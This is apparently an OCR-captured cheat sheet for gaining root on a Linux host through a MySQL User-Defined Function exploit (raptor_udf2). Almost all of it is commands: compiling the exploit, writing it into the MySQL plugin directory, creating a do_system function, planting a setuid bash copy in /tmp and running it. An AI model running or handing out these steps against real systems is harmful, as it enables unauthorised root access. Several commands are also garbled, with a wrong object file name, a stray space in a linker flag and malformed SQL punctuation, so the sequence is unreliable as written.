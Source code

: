 # MySQL 4.x/5.x

## Enumerate programs running

```bash
$ ps aux | grep "^root"
```

Example MySQL 4.x/5.0 User-Defined Function

## Compile and Convert the exploit to 64-bit

```bash
$ gcc -g -c raptor_udf2.c -fPIC
```

## Create a shared object from the compiled exploit

```bash
$ gcc -g -shared -Wl, -soname,raptor_udf2.so -o raptor_udf2.so raptor_idf2.p -lc
```

## Connect to mySQL

```bash
$ mysql -u root -p
```

## Steps to load the shared object into MySQL

```bash
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/mrfart/raptor_udf2.so';);
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so':
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
mysql> exit
```

## Execute rootbash shell

```bash
$ /tmp/rootbash
```